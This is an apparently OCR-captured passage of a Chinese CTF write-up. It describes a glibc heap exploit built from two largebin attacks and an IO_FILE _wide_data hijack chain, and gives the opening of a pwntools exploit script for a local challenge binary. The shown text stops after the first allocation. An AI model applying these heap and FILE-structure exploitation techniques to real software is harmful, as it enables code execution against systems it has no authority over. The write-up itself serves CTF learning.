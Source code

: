 需要达到的效果是：两次largebin attack，分别使stderr指向可控内容的堆块、修改topchunk

看似比较简单，但需注意edit只能修改0x30，且只有两次机会

所以对伪造结构体内容的写入需要在add操作进行，入largebin之后对前6个地址会有覆盖，实测下来对IO利用没有影响

## IO利用流程分析

_wide_data=fake_io_addr+0x30

1.将[rdi+0xa0]`_wide_data`处的内容赋值给rax，为了避免与下面的rax混淆，称之为**rax1**。
2.将新赋值的[rax1+0x20]`_IO_backup_base`处的内容赋值给rdx。
3.将[rax1+0xe0]

处的内容赋值给rax，称之为**rax2**。
4.call调用[rax2+0x18]处的内容。



```c
_wide_data->_IO_read_ptr ！=_wide_data->_IO_read_end
_wide_data->_IO_write_ptr > _wide_data->_IO_write_base
#如果_wide_data=fake_io_addr+0x30，其实也就是fp->_IO_save_base < f->_IO_backup_base
fp->_lock是一个可写地址（堆地址、libc中的可写地址
```

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import*

context(os = 'linux', arch = 'amd64', log_level = 'debug', terminal = ['tmux', 'new-window'])
def debug(cmd=''):
	cmd += "b main\n"
	gdb.attach(p, cmd)
	pause()

host = ""
port = 0
p = process("./pwn")
#p = remote(host, port)
libc = ELF("./libc.so.6")

login = "LOGIN | r00t QWB QWXFadmin"
cat = "CAT | r00t QWB QWXF$\xff"

def add(index, size, content):
	p.sendafter("mew~~~~~~\n", cat)
	p.sendlineafter("cat\n", "1")
	p.sendlineafter("idx:\n",str(index).encode())
	p.sendlineafter("size:\n",str(size).encode())
	p.sendafter("content:\n",content)
def delete(index):
	p.sendafter("mew~~~~~~\n", cat)
	p.sendlineafter("cat\n", "2")
	p.sendlineafter("idx:\n",str(index).encode())
def show(index):
	p.sendafter("mew~~~~~~\n", cat)
	p.sendlineafter("cat\n", "3")
	p.sendlineafter("idx:\n",str(index).encode())
def edit(index, content):
	p.sendafter("mew~~~~~~\n", cat)
	p.sendlineafter("cat\n", "4")
	p.sendlineafter("idx:\n",str(index).encode())
	p.sendafter("content:\n",content)

p.send(login)
add(0, 0x420, cyclic(0x420))#largechunk 0
```